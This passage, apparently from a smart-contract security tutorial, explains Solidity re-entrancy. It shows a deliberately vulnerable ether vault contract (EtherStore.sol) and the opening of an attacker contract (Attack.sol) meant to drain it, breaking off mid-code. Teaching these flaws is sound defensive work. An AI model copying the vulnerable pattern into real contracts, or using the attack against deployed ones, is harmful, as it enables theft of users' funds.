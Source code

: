 This attack can occur when a contract sends ether to an unknown address. An attacker can carefully construct a contract at an external address which contains malicious code in the [fallback function](https://solidity.readthedocs.io/en/latest/contracts.html?highlight=fallback#fallback-function). Thus, when a contract sends ether to this address, it will invoke the malicious code. Typically the malicious code executes a function on the vulnerable contract, performing operations not expected by the developer. The name "re-entrancy" comes from the fact that the external malicious contract calls back a function on the vulnerable contract and "*re-enters*" code execution at an arbitrary location on the vulnerable contract.

To clarify this, consider the simple vulnerable contract, which acts as an Ethereum vault that allows depositors to only withdraw 1 ether per week.

EtherStore.sol:
```solidity
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```

This contract has two public functions. `depositFunds()` and `withdrawFunds()`. The `depositFunds()` function simply increments the senders balances. The `withdrawFunds()` function allows the sender to specify the amount of wei to withdraw. It will only succeed if the requested amount to withdraw is less than 1 ether and a withdrawal hasn't occurred in the last week. Or does it?...

The vulnerability comes on line \[17\] where we send the user their requested amount of ether. Consider a malicious attacker creating the following contract,

Attack.sol:
```solidity
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // initialise the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }

  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }

```